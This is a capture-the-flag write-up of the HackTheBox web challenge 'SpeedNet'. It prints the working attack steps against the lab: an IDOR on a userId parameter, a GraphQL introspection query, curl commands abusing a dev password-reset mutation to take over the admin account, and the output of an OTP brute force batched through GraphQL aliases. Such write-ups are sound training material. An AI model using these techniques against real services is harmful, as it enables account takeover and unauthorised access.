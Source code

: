 ```yaml
---
title: 'HackTheSystem: SpeedNet'
author: lict
categories: [HackTheBox]
tags: [web, graphql, IDOR, OTP, bruteforce]
render_with_liquid: false
media_subpath: /images/hackthesystem_speednet/
---
```


The challenge description:
```
Speednet is an Internet Service Provider platform that enables users to purchase internet services. We invite you to participate in our bug bounty program to identify any potential vulnerabilities within the application and retrieve the flag hidden on the site. For your testing, we have provided additional email services. Please find the details below:  
Email Site: `http://IP:PORT/emails/` Email Address: test@email.htb
```

We can make an account here, let's proceed with that. When we visit the `/profile` endpoint, the browser sends the following request to load our data:

![20250629182719.png](20250629182719.png)

Let's change the `userId` parameter to `1` and see if we can get the `admin`'s data:

![[Pasted image 20250629182811.png]]

It worked! I saved the output we got and tried to send the introspection query.
Here's the request body I sent to `/graphql` endpoint:
```
{"query":"{__schema{types{name,fields{name,args{name,description,type{name,kind,ofType{name, kind}}}}}}}"}
```

I noticed this interesting mutation, seems like we can reset the `admin`'s password:

![[Pasted image 20250629183152.png]]

I used the following `curl` command to proceed:
```
┌──(kali㉿kali)-[/tmp/mongo-objectid-predict]
└─$ curl 'http://94.237.62.135:45936/graphql' \
  -X POST \
  -H 'Content-Type: application/json' \
  --data-raw '{"query":"mutation GetAdminResetToken { devForgotPassword(email:   \"admin@speednet.htb\") }"}'
{"data":{"devForgotPassword":"Dev only! Password reset token: 885ba666-3dfd-4175-9fdc-406c2e15dcbc"}}

```

Then, using the token I got I reset the admin's password:
```
┌──(kali㉿kali)-[/tmp/mongo-objectid-predict]
└─$ curl 'http://94.237.62.135:45936/graphql' \
  -X POST \
  -H 'Content-Type: application/json' \
  --data-raw '{"query":"mutation ChangeAdminPassword { resetPassword(token: \"885ba666-3dfd-4175-9fdc-406c2e15dcbc\", newPassword: \"Lictwashere123!\") }"}'
{"data":{"resetPassword":"Password has been reset successfully"}}

```

It worked, I was able to login as admin but it asked for an OTP:

![[Pasted image 20250629183832.png]]

I clicked resend OTP hoping it will be exposed somewhere, but it just exposed a token:

![[Pasted image 20250629184139.png]]

I've decided to `bruteforce` the OTP using `graphql aliases`. I vibe coded a tool again, made small changes, grabbed the token and ran it hoping it will work, and BOOM!

```
┌──(kali㉿kali)-[/tmp/mongo-objectid-predict]
└─$ python3 hack_otp.py

[*] Starting attack for 4-digit OTPs...
[*] Target: http://94.237.62.135:45936/graphql
[*] Batch size: 200

[*] Sending batch: 0000 -> 0199
[*] Sending batch: 0200 -> 0399
[*] Sending batch: 0400 -> 0599
[*] Sending batch: 0600 -> 0799
[*] Sending batch: 0800 -> 0999
[*] Sending batch: 1000 -> 1199
[*] Sending batch: 1200 -> 1399
[*] Sending batch: 1400 -> 1599
[*] Sending batch: 1600 -> 1799
[*] Sending batch: 1800 -> 1999

==================================================
[+] SUCCESS! OTP FOUND: 1814
==================================================

[+] Full Response from Server:
{
  "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjEsImlhdCI6MTc1MTIwODI4NSwiZXhwIjoxNzUxMjExODg1fQ.mWEpTT-kDCqiBjj8uKk1h4kASKQDcwlJHP6uQGGSfyQ",
  "user": {
    "id": 1,
    "email": "admin@speednet.htb"
  }
}

[+] FINAL SESSION TOKEN:
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjEsImlhdCI6MTc1MTIwODI4NSwiZXhwIjoxNzUxMjExODg1fQ.mWEpTT-kDCqiBjj8uKk1h4kASKQDcwlJHP6uQGGSfyQ

```

I signed into my own account and switched tokens in `Local Storage` from mine to the hacked one. I refreshed the page using `CTRL+SHIFT+R` and noticed that I am logged in as `admin@speednet.htb`. I just navigated to the `Billing` tab, scrolled the page down and grabbed the flag!

![[Pasted image 20250629184844.png]]
